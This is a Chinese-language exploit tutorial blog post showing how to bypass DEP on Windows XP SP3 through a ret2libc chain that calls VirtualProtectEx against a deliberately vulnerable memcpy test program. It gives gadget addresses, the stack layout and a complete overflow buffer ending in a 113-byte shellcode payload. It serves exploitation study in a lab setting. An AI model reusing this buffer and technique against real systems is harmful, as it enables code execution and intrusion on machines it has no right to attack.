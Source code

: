 ```yaml
---
layout:		post
title:		Ret2Libc实战之利用VirtualProtect
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H  
<!-- more -->


### 0x00 前期准备

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

void test()
{
	char str[176];
	__asm int 3
	memcpy(str, shellcode, 430);
}

int main()
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	test();

	return 0;
}
```


### 0x01 分析栈布局

运行*.exe, OllyDbg在int 3断点断下, shellcode起始地址0x0012fdfc, 返回地址0x0012feb0

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x00.png)
![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x01.png)

先来看看VirtualProtectEx的传入参数

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x02.png)

VirtualProtectEx的入口地址在0x7c801ad4

```
-1						hProcess
ebp+0x8~ebp+0xc:		lpAddress
ebp+0xc~ebp+0x10:		dwSize
ebp+0x10~ebp+0x14:		flNewProtect
ebp+0x14~ebp+0x18:		lpflOldProtect
```

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x03.png)

shellcode作如下修改, 源码里memcpy长度改成420

```
...
"\x90\x90\x90\x90"		# 180 byte
"\xd4\x1a\x80\x7c"
```

现在成功到达VirtualProtectEx入口, 但ebp被破坏了

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x04.png)
![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x05.png)

先对ebp进行修正, 利用"push esp pop ebp retn"指令, 在OllyFindAddr检索"545D"机器码

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x06.png)

在0x5d1d8b85找到一处, 继续修改shellcode

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
```

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x07.png)

修正了ebp, 但retn后esp位于高地址, 增大esp避免压栈破坏shellcode

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x08.png)

在0x62c2127a找到一处"retn 0x28"

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x09.png)

修改shellcode, 因为修正ebp时的retn4, 需要先填充4 byte的junk再放置VirtualProtectEx

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
```

OD附加调试, 来到VirtualProtectEx入口, ebp=0x0012fee4

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0a.png)
![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0b.png)

VirtualProtectEx传入的第2~5个参数起始于ebp+0x8=0x0012feec, 第1个参数固定为-1

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0c.png)

修改shellcode, 241~256 byte依次放置4个参数, 最后一个参数需要指向一个可写地址, 这里我指向了栈上的一个junk

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# junk
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
```

OD附加调试, 调用VirtualProtectEx后返回eax=1, 说明设置成功

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0d.png)

继续往下, 来到"retn 10", esp指向0x0012fee8, 后面紧跟4个参数, 在这里放置一条"jmp esp"就能跳回栈上执行shellcode

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0e.png)

在0x7d70fa1e找到1条, 注意这里log条目太多最好导出到文件看, 还有部分检索出的地址会报异常, 替换其他的即可

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x0f.png)

shellcode的236~240 byte修改成"jmp esp"的地址

```
...		# 236 byte
"\x1e\xfa\x70\x7d"
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
```


### 0x02 exploit

现在已经跳到栈上, 而且正好紧跟VirtualProtectEx的最后1个参数, 给出完整的shellcode

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x10.png)

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# junk
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x1e\xfa\x70\x7d"		# jmp esp
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# paylaod 113 byte
```

pwn~

![](/assets/img/exploit/2017-10-05-disable-dep-virtualprotect/0x11.png)